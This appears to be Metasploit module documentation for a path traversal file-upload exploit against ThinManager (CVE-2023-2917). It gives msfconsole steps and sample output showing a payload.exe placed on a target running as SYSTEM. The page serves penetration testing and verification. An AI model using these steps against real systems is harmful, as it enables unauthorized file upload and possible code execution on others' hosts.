 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2917) to upload an arbitrary file to the target
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2


## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/admin/networking/thinmanager_traversal_upload2 
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set RHOSTS <IP>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set LFILE <local file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set RFILE <remote file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > run
```

This should upload the local file specified through LFILE to the server, as specified in RFILE.

## Options

### LFILE
Specifies the local file to upload to the remote server.

### RFILE
Specifies the remote file location where the file will be uploaded to.

## Scenarios

Running the exploit against ThinManager v13.1.0 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Read 27648 bytes from /tmp/payload.exe
[*] 192.168.137.229:2031 - Uploading /tmp/payload.exe as /Program Files/Rockwell Software/ThinManager/payload.exe on the remote host...
[*] 192.168.137.229:2031 - Upload request length: 27752 bytes
[!] 192.168.137.229:2031 - No response received after upload.
[+] 192.168.137.229:2031 - Upload process completed. Check if '/Program Files/Rockwell Software/ThinManager/payload.exe' exists on the target.
[*] Auxiliary module execution completed
```
